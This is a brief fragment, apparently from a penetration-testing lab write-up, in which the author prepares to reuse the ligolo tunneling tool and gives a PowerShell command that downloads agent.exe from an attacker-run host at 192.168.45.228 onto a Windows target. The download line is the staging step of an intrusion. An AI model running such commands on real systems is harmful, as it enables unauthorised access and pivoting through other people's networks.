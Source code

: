 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```